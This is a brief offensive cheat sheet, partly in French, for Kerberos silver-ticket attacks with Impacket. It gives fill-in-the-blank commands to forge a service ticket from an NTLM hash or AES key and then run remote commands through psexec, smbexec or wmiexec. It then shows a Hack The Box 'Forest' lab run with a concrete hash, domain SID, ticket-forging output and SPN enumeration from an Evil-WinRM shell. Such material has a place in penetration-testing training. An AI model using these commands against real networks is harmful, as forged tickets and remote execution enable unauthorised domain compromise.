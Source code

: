 # silverticket

## To generate the TGS with NTLM

python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

## To generate the TGS with AES key

python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

## Set the ticket for impacket use

export KRB5CCNAME=<TGS_ccache_file>

## Execute remote commands with any of the following by using the TGT

python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass

## recuperer un ticket

```pwsh
/usr/share/doc/python3-impacket/examples/ticketer.py -nthash 9248997E4EF68CA2BB47AE4E6F128668 -dc-ip 10.10.10.161 -domain HTB.local -domain-sid S-1-5-21-3072663084-364016917-1341370565 -spn kadmin/changepw svc-alfresco
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for HTB.local/svc-alfresco
[*]   PAC_LOGON_INFO
[*]   PAC_CLIENT_INFO_TYPE
[*]   EncTicketPart
[*]   EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]   PAC_SERVER_CHECKSUM
[*]   PAC_PRIVSVR_CHECKSUM
[*]   EncTicketPart
[*]   EncTGSRepPart
[*] Saving ticket in svc-alfresco.ccache
```

## enumerer les SPN

```pwsh
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> setspn -Q */*
Checking domain DC=htb,DC=local
CN=FOREST,OU=Domain Controllers,DC=htb,DC=local
  TERMSRV/FOREST
  TERMSRV/FOREST.htb.local
  exchangeAB/FOREST
  exchangeAB/FOREST.htb.local
  Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/FOREST.htb.local
  ldap/FOREST.htb.local/ForestDnsZones.htb.local
  ldap/FOREST.htb.local/DomainDnsZones.htb.local
  DNS/FOREST.htb.local
  GC/FOREST.htb.local/htb.local
  RestrictedKrbHost/FOREST.htb.local
  RestrictedKrbHost/FOREST
  RPC/236ba33a-7959-4a41-b959-5f82689a0871._msdcs.htb.local
  HOST/FOREST/HTB
  HOST/FOREST.htb.local/HTB
  HOST/FOREST
  HOST/FOREST.htb.local
  HOST/FOREST.htb.local/htb.local
  E3514235-4B06-11D1-AB04-00C04FC2DCD2/236ba33a-7959-4a41-b959-5f82689a0871/htb.local
  ldap/FOREST/HTB
  ldap/236ba33a-7959-4a41-b959-5f82689a0871._msdcs.htb.local
  ldap/FOREST.htb.local/HTB
  ldap/FOREST
  ldap/FOREST.htb.local
  ldap/FOREST.htb.local/htb.local
CN=krbtgt,CN=Users,DC=htb,DC=local
  kadmin/changepw
CN=EXCH01,CN=Computers,DC=htb,DC=local
  IMAP/EXCH01
  IMAP/EXCH01.htb.local
  IMAP4/EXCH01
  IMAP4/EXCH01.htb.local
  POP/EXCH01
  POP/EXCH01.htb.local
  POP3/EXCH01
  POP3/EXCH01.htb.local
  exchangeRFR/EXCH01
  exchangeRFR/EXCH01.htb.local
  exchangeAB/EXCH01
  exchangeAB/EXCH01.htb.local
  exchangeMDB/EXCH01
  exchangeMDB/EXCH01.htb.local
  SMTP/EXCH01
  SMTP/EXCH01.htb.local
  SmtpSvc/EXCH01
  SmtpSvc/EXCH01.htb.local
  WSMAN/EXCH01
  WSMAN/EXCH01.htb.local
  RestrictedKrbHost/EXCH01
  HOST/EXCH01
  RestrictedKrbHost/EXCH01.htb.local
  HOST/EXCH01.htb.local
```
